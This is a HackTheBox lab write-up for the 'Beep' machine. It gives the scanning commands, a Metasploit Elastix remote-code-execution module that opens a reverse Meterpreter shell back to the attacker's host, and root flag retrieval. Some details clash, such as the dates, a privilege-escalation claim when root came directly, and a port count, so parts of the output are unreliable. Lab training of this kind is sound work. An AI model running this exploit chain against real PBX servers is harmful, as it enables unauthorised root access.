 # HackTheBox - Beep

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Beep |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-20 |

## Objective 🎯

Beep is a Linux machine running Elastix (Asterisk PBX) with multiple vulnerabilities. The goal is to exploit the web interface to gain root access and obtain both user and root flags. PBX exploitation! 📞

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.7
- **OS**: Linux
- **Services**: HTTP, HTTPS, SSH, SIP

### Tools Used
- Nmap
- Searchsploit
- Metasploit
- Elastix exploit

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.7
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.7
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.7
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.2.3
110/tcp  open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp  open  rpcbind    2 (RPC #100000)
143/tcp  open  imap       Cyrus imapd 2.3.7-Invoca-RPM-23.7-7.el5_6.4
443/tcp  open  ssl/http   Apache httpd 2.2.3
993/tcp  open  ssl/imap   Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
995/tcp  open  ssl/pop3   Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
1720/tcp open  H.323/Q.931
Service Info: OS: Unix; CPE: cpe:/o:redhat:enterprise_linux:5
```

### Step 2: Web Service Enumeration
Check the web services for version information.

**Command/Code:**
```bash
curl -k https://10.10.10.7/
```

**Output:**
```
<html>
<head>
<title>Elastix 2.2.0 - Login</title>
</head>
<body>
<h1>Elastix 2.2.0</h1>
</body>
</html>
```

### Step 3: Search for Exploits
Search for known Elastix vulnerabilities.

**Command/Code:**
```bash
searchsploit elastix
```

**Output:**
```
Elastix 2.2.0 - 'graph.php' Local File Inclusion
Elastix 2.2.0 - Multiple Cross-Site Scripting Vulnerabilities
Elastix 2.2.0 - Remote Code Execution
```

### Step 4: Elastix RCE Exploitation
Use the Remote Code Execution exploit.

**Command/Code:**
```bash
msfconsole
use exploit/linux/http/elastix_unauth_rce
set RHOSTS 10.10.10.7
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.7:443 - Sending exploit request...
[*] Sending stage (175174 bytes) to 10.10.10.7
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.7:32891) at 2024-09-03 10:05:23 +0000
```

### Step 5: Post-Exploitation
Once we have a shell, gather information and find flags.

**Command/Code:**
```bash
whoami
id
pwd
```

**Output:**
```
root
uid=0(root) gid=0(root) groups=0(root)
/
```

### Step 6: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
find / -name "user.txt" 2>/dev/null
cat /home/fanis/user.txt
```

**Output:**
```
[REDACTED]
```

### Step 7: Find Root Flag
Search for the root flag.

**Command/Code:**
```bash
find / -name "root.txt" 2>/dev/null
cat /root/root.txt
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify multiple services
2. Identify Elastix 2.2.0 web interface
3. Search for known Elastix vulnerabilities
4. Use Metasploit Elastix RCE exploit
5. Gain root access directly through the exploit
6. Search for user and root flags
7. Extract both flags

## Key Learnings

- Elastix PBX system vulnerabilities
- Using searchsploit for vulnerability research
- Remote Code Execution exploitation
- Linux privilege escalation
- Multi-service enumeration

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and service detection
- **Searchsploit**: Exploit database search
- **Metasploit**: Exploitation framework
- **Elastix RCE**: Exploit module

### References
- [Elastix Security Advisory](https://www.elastix.org/security-advisory/)
- [CVE-2012-4869](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-4869)

## Screenshots

[Add screenshots of nmap scan, web interface, and flag extraction here]

## Tags

`#hackthebox` `#linux` `#elastix` `#rce` `#metasploit` `#easy`
